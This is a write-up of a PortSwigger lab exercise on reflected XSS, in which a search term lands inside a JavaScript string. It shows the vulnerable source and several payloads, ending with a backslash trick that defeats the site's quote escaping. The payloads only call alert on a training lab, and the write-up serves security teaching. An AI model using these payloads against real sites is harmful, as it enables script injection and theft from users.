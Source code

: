 # Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped), you'll learn: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043307.png)

In here, we can see there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043331.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043357.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

In here, the source (input) is being parsed to the `document.write` sink.

**Let's try to inject an XSS payload:**
```html
</script><img src=errorpls onerror=alert(document.domain)>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043835.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043904.png)

As you can see, our `<>` is HTML encoded.

**Let's try to break out of the JavaScript code:**
```js
';alert(document.domain)//
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044344.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044401.png)

However, our `'` is being escaped.

**We can try to escape the `\`:**
```js
\';alert(document.domain)//
```

**So the result will be:**
```js
\\';alert(document.domain)//
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044435.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044444.png)

Nice!

# What we've learned:

1. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped